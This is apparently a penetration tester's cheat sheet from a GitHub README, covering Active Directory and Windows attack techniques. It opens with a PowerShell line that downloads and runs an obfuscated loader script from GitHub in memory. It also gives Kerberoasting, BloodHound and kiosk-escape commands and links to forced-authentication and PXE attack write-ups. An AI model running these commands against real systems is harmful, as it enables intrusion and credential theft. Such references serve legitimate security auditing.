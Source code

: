 ### Legitimate files for security audit

$key need to be set

```
IEX(New-Object Net.WebClient).downloadstring('https://raw.githubusercontent.com/TikTakTech/Salsa/main/KP_Obf_LOAD_Menu.ps1')
```

# CYBER CHEAT SHEET

Global Ressources
---
- https://viperone.gitbook.io/pentest-everything
- https://book.hacktricks.xyz/
- https://atomicredteam.io/atomics/
- https://github.com/S3cur3Th1sSh1t/

Kiosk evasion : file access from browser or openfile dialogbox
---
```
file://c:/windows/system32/calc.exe
```

Recent user activity
---
```
C:\Users\%username%\AppData\Roaming\Microsoft\Windows\Recent
```

Url file attack
---
- https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication
- https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/forced-coercion/url-file-attack
- https://github.com/mdsecactivebreach/Farmer
- https://www.mdsec.co.uk/2021/02/farming-for-red-teams-harvesting-netntlm/

NTLM
---
- https://www.scip.ch/en/?labs.20210909

KALI : Files Transfert
---
```
python -m http.server
```

- https://haveibeenpwned.com/
- https://breachdirectory.org/

SYSVOL access without serveur name
---
```
\\mon-domaine.fr\sysvol
```
Searching Password in GPO with explorer
---

![image](https://github.com/TikTakTech/Salsa/assets/114105972/45e450e0-3a09-4da1-89d0-24db9bc8adb7)

BloodHound
---
```
bloodhound-python -d domain -u username@domain -p password -c all -ns domain_controller_ip -v
sudo apt install bloodhound
sudo neo4j console
http://localhost:7474/
(neo4j/neo4j)
bloodhound
```
https://medium.com/@leviathan36/active-directory-testing-with-bloodhound-a33b88622d2f

ADMiner
---
```
pipx install 'git+https://github.com/Mazars-Tech/AD_Miner.git'
reopen shell ;-)
AD-miner -c -cf My_Report -u neo4j -p mypassword
```
https://github.com/Mazars-Tech/AD_Miner

Kerberoasting
---
```
Find-PotentiallyCrackableAccounts -Stealth -GetSPNs | Get-TGSCipher -Format Hashcat
```
- https://github.com/cyberark/RiskySPN
- https://github.com/nidem/kerberoast/blob/master/GetUserSPNs.ps1
- https://www.youtube.com/watch?v=ycNadGeq03E
  
MEMCM - MDT - PXE
---

- https://www.secura.com/blog/attacking-mitigating-windows-pxe-environments
- https://www.netspi.com/blog/technical-blog/network-penetration-testing/attacks-against-windows-pxe-boot-images/
- https://www.riskinsight-wavestone.com/en/2020/01/taking-over-windows-workstations-pxe-laps/
- https://connect.ed-diamond.com/MISC/misc-103/compromission-des-postes-de-travail-grace-a-laps-et-pxe
- https://www.acceis.fr/sattaquer-aux-images-pxe/
- https://github.com/wavestone-cdt/powerpxe
- https://tryhackme.com/r/room/breachingad

<br/><br/>
